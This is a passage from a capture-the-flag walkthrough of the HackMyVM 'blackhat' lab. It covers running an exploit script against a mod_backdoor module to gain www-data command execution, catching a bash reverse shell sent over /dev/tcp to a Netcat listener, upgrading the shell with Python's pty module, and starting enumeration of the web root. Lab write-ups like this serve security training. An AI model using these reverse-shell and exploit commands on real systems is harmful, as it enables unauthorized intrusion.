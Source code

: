 ```python
        if command == "exit":
            break
        exploit(host, port, command)

if __name__ == "__main__":
    main()
```

I executed the exploit script, and it provided a command execution interface. I confirmed my user with `id`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/blackhat]
└─$ python3 exploit.py 192.168.1.16 80
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I was `www-data`. To get a stable shell, I set up a Netcat listener on my Kali machine and then used the `mod_backdoor` exploit to send a reverse shell command.

**Terminal 2 (Kali Listener):**

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/blackhat]
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.16 46644
```

**Terminal 1 (Exploit Script):**

```shellscript
$ /usr/bin/bash -c "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1"
```

After receiving the shell, I upgraded it to a fully interactive TTY using Python.

```shellscript
www-data@blackhat:/$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@blackhat:/$
```

### 4. Local Enumeration (`www-data`)

I started by exploring the file system, particularly the web root and home directories.

```shellscript
www-data@blackhat:/$ ls -la /var/www/html
total 36
drwxr-xr-x 2 root     root      4096 Nov 19  2022 .
drwxr-xr-x 3 root     root      4096 Nov 10  2022 ..
-rw-r--r-- 1 www-data www-data 13314 Nov 11  2022 image.jpg
-rw-r--r-- 1 www-data www-data  1437 Nov 19  2022 index.html
-rw-r--r-- 1 www-data www-data    20 Nov 11  2022 phpinfo.php
-rw-r--r-- 1 www-data www-data  2332 Nov 11  2022 style.css
```
